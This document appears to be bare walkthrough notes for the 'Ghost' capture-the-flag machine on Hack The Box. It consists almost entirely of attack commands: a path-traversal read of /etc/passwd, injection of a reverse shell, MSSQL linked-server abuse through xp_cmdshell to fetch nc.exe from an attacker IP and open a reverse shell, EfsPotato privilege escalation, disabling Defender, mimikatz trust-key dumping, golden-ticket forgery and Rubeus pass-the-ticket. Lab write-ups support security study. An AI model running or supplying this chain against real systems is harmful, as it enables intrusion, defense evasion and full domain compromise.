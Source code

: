 # Ghost


    http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a


    curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@y******' -H 'Content-Type: application/json' -d '{"url": "<<bash 196 revshell>>"}'


    python3 mssqlclient.py ghost.htb/intranet_principal:'He******'@DC01.ghost.htb -windows-auth

    impacket-mssqlclient florence.ramirez:'He*****'@ghost.htb -windows-auth

ux******和He******都可以

    enum_links

    use_link [PRIMARY]

    use master

    exec_as_login sa

--impacket-mssqlclient-- 
                      
    EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.xx.xx/nc.exe -OutFile $env:TEMP\nc.exe"'

    EXEC xp_cmdshell '%TEMP%\nc.exe -e cmd.exe 10.10.xx.xx xxxx';

                             
--python3 mssqlclient.py-- 

    xp_cmdshell


    ./EfsPotato.exe 'nc.exe -e cmd.exe 10.10.xx.xx xxxx'


    wmic useraccount get name,sid


关AV：

    Set-MpPreference -DisableRealtimeMonitoring $true



    .\mimikatz.exe "lsadump::trust /patch" exit


    .\mimikatz.exe "kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498-502 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi" exit


    .\Rubeus.exe asktgs /ticket:golden.kirbi /dc:dc01.ghost.htb /service:CIFS/dc01.ghost.htb /nowrap /ptt


    type \\DC01.ghost.htb\c$\Users\justin.bradley\Desktop\user.txt
    
    type \\DC01.ghost.htb\c$\Users\Administrator\Desktop\root.txt
